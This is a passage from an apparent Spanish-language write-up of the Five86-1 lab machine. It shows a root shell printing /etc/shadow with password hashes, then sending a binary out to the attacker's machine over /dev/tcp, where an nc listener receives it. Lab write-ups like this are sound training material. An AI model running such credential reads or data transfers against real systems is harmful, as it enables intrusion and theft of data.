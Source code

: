 ```bash
root@five86-1:/etc# cat shadow
root:$6$GEXLROFsH4hFOtgc$2yAqzTpsmPu8FsfKNi2VZp4K5bA/mWS2hZetUFpuEHetgzz6GsyEcLbuDbWdroHPaC.AwSGBFTYZz0LQjj0Of.:18262:0:99999:7:::
daemon:*:18261:0:99999:7:::
bin:*:18261:0:99999:7:::
sys:*:18261:0:99999:7:::
sync:*:18261:0:99999:7:::
games:*:18261:0:99999:7:::
man:*:18261:0:99999:7:::
lp:*:18261:0:99999:7:::
mail:*:18261:0:99999:7:::
news:*:18261:0:99999:7:::
uucp:*:18261:0:99999:7:::
proxy:*:18261:0:99999:7:::
www-data:*:18261:0:99999:7:::
backup:*:18261:0:99999:7:::
list:*:18261:0:99999:7:::
irc:*:18261:0:99999:7:::
gnats:*:18261:0:99999:7:::
nobody:*:18261:0:99999:7:::
_apt:*:18261:0:99999:7:::
systemd-timesync:*:18261:0:99999:7:::
systemd-network:*:18261:0:99999:7:::
systemd-resolve:*:18261:0:99999:7:::
messagebus:*:18261:0:99999:7:::
sshd:*:18261:0:99999:7:::
systemd-coredump:!!:18261::::::
mysql:!:18261:0:99999:7:::
moss:$6$ZKX2L7fJTvFO2Ved$qrJBD8SErjEjIeT.KIqmvgENAnjTQH6mCyQMLey7aMn31uiD0szjhrq8EL6gnJkK5sHzxHEHGyJqbiwI6iUHx0:18262:0:99999:7:::
roy:$6$Uh0q/F52PTqJQrvA$VDzEEwsd.6PiGP44dBVDbMj10IjIrCdB0qg.e36A0cW24jSVtB3PcD6YokG57hZxLs89Fx0NvWlN63.uMaac./:18261:0:99999:7:::
jen:$6$oUJMVFRFI4qds92b$FIP4hsXcnEa2sHT/NyVnxi/PeMc9Kc5r7Sd/dNGyWW.7OS6nz6OinTyPAaQf5h6oxYDNz/7Cex0Gyo5EJ9OPo0:18261:0:99999:7:::
richmond:$6$9ezwkGRwZkwCcNVu$xSeVVsn7c6jN3DwygvTqS7BT1QNjFemNVEwb6pZNCu3V2IvjUcMULhxgZ67Y/KfVSpfvoWi5Q/6fTMP9nRLty1:18261:0:99999:7:::
douglas:$6$XyRmT1iTa7FHKynm$qYVWeN85.Yaj7IpMrt0flV221BCj5WhZeCBsqryZo/DgoP/GEyekTZ6s.Q.N3lJfaiwnT5SxlWxm6m59Lg4d91:18263:0:99999:7:::
Debian-exim:!:18262:0:99999:7:::
root@five86-1:/etc# 
```

## Analizando Binario

Vamos a enviar el Binario a nuestra maquina de atacante

```bash
moss@five86-1:~/.games$ cat < upyourgame > /dev/tcp/192.168.1.94/443
moss@five86-1:~/.games$ 
```

```bash
❯ nc -nlvp 443 > upyourgame
listening on [any] 443 ...
connect to [192.168.1.94] from (UNKNOWN) [192.168.1.102] 59358
```
